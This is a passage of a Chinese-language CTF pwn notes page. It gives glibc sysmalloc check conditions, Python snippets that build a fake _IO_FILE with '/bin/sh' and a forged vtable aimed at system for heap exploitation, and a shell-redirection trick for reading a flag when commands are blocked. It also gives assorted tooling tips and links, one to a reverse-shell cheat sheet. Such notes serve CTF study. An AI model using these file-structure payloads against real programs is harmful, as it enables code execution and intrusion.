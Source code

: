 ## sysmalloc
两个assert
```python
old_size >= 0x1f
old_top &0x1=1
old_end is the end of page
old_size < nb+MINSIZE
```
## IO_FILE Payload
```python
#32 bits
fake_file = "/bin/sh\x00" + "\x00" * 0x40 + p32(fake_lock_addr)
fake_file = fake_file.ljust(0x94, "\x00")
fake_file += p32(fake_vtable_addr - 0x44)

#64 bits
fake_file = "/bin/sh\x00" + '\x00' * 0x8
fake_file += p64(system) + '\x00' * 0x70
# the system can also be placed in other memory
fake_file += p64(fake_lock_addr)
fake_file = fake_file.ljust(0xd8, '\x00')
fake_file += p64(buf_addr + 0x10 - 0x88) # fake_vtable_addr
```
## pwn 远端 命令被ban
尝试cat flag  >&0
/*输出重定向到stdin ...*/
stdin也是可以用来输出的。

## 系统调用表
[x64系统调用表][4]
[x86系统调用表][5]

## github提速

sudo vim /etc/hosts
添加 github.com,github.global.ssl.fastly.net 的ip

## qira
github 上安装
按照shellfish的师傅的pull改
[link][6]

## dmesg
dmesg用来显示内核环缓冲区（kernel-ring buffer）内容


## echo -e


[1]: https://blog.csdn.net/chdhust/article/details/8495921
[2]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[3]: https://ctf-wiki.github.io/ctf-wiki/pwn/linux/arm/environment/
[4]: https://www.cs.utexas.edu/~bismith/test/syscalls/syscalls64_orig.html
[5]: http://syscalls.kernelgrok.com/
[6]: https://github.com/geohot/qira/pull/203
[7]: https://zhuanlan.zhihu.com/p/31918676
[8]: https://www.jianshu.com/p/3a2df9b7c353
[9]: https://www.cyberpunk.rs/ghidra-software-reverse-engineering-framework